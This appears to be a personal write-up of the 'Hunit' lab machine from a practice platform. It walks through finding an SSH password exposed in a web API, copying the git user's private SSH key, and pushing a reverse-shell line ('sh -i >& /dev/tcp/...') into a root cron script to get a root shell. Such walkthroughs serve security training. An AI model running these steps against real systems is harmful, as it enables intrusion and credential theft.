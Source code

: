 ```yaml
---
Alias: Hunit
Date: 6/1/2022
Platform: Linux
Difficulty: Intermediate
Tags:
Status: Finished
IP: 
---
```


# {{Hunit}}


# Resolution summary
- Text
- Text

## Improved skills
- Located a directory listed in webpage source code
- Directory showed SSH user credentials
- Found cronjob running every 2-3 minutes
- 
- skill 2

## Used tools
- nmap
- gobuster

---

# Information Gathering
Scanned all TCP ports:
```bash

```

Enumerated open TCP ports:
```bash
8080
43022
```

Enumerated top 200 UDP ports:
```bash

```

---

# Enumeration
## Port 8080 - HTTP 

#### -Navigated to http://192.168.143.125:8080 and found the following web page and clicked on a link of a user's hauiku on the web page and right clicked and clicked "view page source" and found it had directory "/api"

![](Pasted%20image%2020221016220003.png)
![](Pasted%20image%2020221017173943.png)

#### -Navigated to "/api" directory and found the following and clicked "raw data" and found  directory "/user":

![](Pasted%20image%2020221017174047.png)

![](Pasted%20image%2020221017174142.png)

#### -Navigated to directory "/user" and found user login "dademola" listed as an admin:

![](Pasted%20image%2020221017174304.png)

---

# Exploitation
## Located user credentials in directory shown in websites source code

#### -As port 43022 was found earlier running on SSH I typed the following to login to ssh session with the found credentials above "ssh –p 43022 dademola@192.168.143.125" with password "ExplainSlowQuest110" and received shell:

![](Pasted%20image%2020221017174428.png)

---

# Privilege Escalation
## Local Enumeration
#### -Ran "lse.sh" and found cron job "crontab.bak" running as root and was readable and found the below contents of "crontab.bak" which file "pull.sh" and "backups.sh" was running every 2 and 3 minutes:

![](Pasted%20image%2020221017175014.png)
![](Pasted%20image%2020221017175126.png)

#### -Searched more and found directory "git-server" and found it being owned by "git" user and was git backend files which are difficult to work with so I navigated to "/tmp" directory and typed "git clone file:///git-server/" to clone the server into the "/tmp" directory:

![](Pasted%20image%2020221017175529.png)

![](Pasted%20image%2020221017175722.png)

#### -Now we can review the contents of "backups.sh" file which shows as a place holder file:

![](Pasted%20image%2020221017180046.png)

#### -Set up git identity by typing git config --global user.name "dademola" AND git config --global user.email "dademola@hunit.(none)"

![](Pasted%20image%2020221017180308.png)

#### -Typed "echo "touch /tmp/gitscript-test" >> backups.sh" and "chmod +x backups.sh" to inject a test instruction into the "backups.sh" file and to make it executable:

![](Pasted%20image%2020221017180606.png)

#### -But after receiving an error when trying to push the file onto the git-server and further investigation the server is owned by user "git":

#### -Found a user named "git" and found we have read and execute permissions on their ssh "id_rsa" file which is a private SSH Key:

![](Pasted%20image%2020221017180818.png)

![](Pasted%20image%2020221017180904.png)

#### -Navigate to my kali machine and typed "scp -P 43022 dademola@192.168.93.125:/home/git/.ssh/id_rsa ." to upload the private ssh key to my kali machine and "chmod 600" to set the correct permissions:

![](Pasted%20image%2020221017185135.png)

#### -Logged in to remote ssh session by typing "ssh -i id_rsa -p 43022 git@192.168.93.125" and found it to be a git-shell:

![](Pasted%20image%2020221017185623.png)
#GitShell

#### -Since this is a git-shell we should be able to interact with the git repository

## Privilege Escalation vector
## Git-shell cron tab privilege escalation

#### -Typed "GIT_SSH_COMMAND='ssh -i id_rsa -p 43022' git clone git@192.168.93.125:/git-server" to clone git server onto my kali machine:

![](Pasted%20image%2020221017191609.png)

#### -Navigated into git-server and typed [git config --global user.name "kali"] and [git config --global user.email "kali@kali.(none)"] to setup git identity:

![](Pasted%20image%2020221017203812.png)

#### -Typed "echo "sh -i >& /dev/tcp/[kali IP]/8080 0>&1" >> backups.sh " to inject a reverse shell into the "backups.sh" file and typed "chmod +x to make it executable:

#### -Then typed "git add -A " and [git commit -m "pwn"] to commit the changes to the git-server:

![](Pasted%20image%2020221017204016.png)
![](Pasted%20image%2020221017204123.png)

#### -Prior to pushing the master branch to the git-server to place the reverse shell onto the git-server I started a netcat listener listening on port 8080 on my kali machine:

![](Pasted%20image%2020221017204330.png)

#### -Then typed "GIT_SSH_COMMAND='ssh -i /home/kali/Downloads/ProvingGroundsBoxes/Hunit/id_rsa -p 43022' git push origin master" to push everything to the master branch on git-server onto remote machine:

![](Pasted%20image%2020221017204550.png)

#### -As found previously the "/root/git-server/backups.sh" file runs every 3 minutes I waited about 3 minutes and received a root shell on my netcat listener:

![](Pasted%20image%2020221017204714.png)

![](Pasted%20image%2020221017204827.png)
#Git-serverCronTabScriptPrivilegeEscalation

---

# Trophy & Loot
user.txt

root.txt